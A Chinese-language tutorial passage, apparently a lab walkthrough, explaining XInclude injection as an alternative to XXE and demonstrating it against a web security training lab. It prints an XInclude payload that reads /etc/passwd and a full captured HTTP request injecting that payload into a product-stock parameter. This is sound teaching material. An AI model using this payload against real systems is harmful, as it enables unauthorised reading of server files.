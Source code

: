 部分应用程序接收客户端提交的数据将其嵌入到服务器端的 XML 文档中，然后解析文档，当客户端提交的数据被放入后端 SOAP 请求中，然后由后端 SOAP 服务处理时就会出现这种情况的一个示例

在这种情况下您无法执行经典的 XXE 攻击，因为您无法控制整个 XML 文档，因此无法定义或修改 DOCTYPE 元素，但是您可能可以改用 XInclude，XInclude 是 XML 规范的一部分，它允许从子文档构建 XML 文档，您可以在 XML 文档中的任何数据值中放置 XInclude 攻击，因此在仅控制放置在服务器端 XML 文档中单个数据项的情况下可以执行该攻击，而要执行 XInclude 攻击您需要引用 XIncude 命名空间并提供要包含的文件的路径，例如：

```plain
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

靶场演示：  
检查商品的剩余量并使用 Burpsuite 抓包  
[![](assets/1706060044-d2c4c71303d1fd3bd07c5ba5c7e74751.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123132739-1fdc8592-b9b0-1.png)  
构造如下恶意请求载荷

```plain
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

```plain
POST /product/stock HTTP/1.1
Host: 0ae300250423820d847064d8006c0005.web-security-academy.net
Connection: close
Content-Length: 126
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0ae300250423820d847064d8006c0005.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ae300250423820d847064d8006c0005.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=u5iqLOnpm7h5y2R8vt2oa1X7KC6i8iiN

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
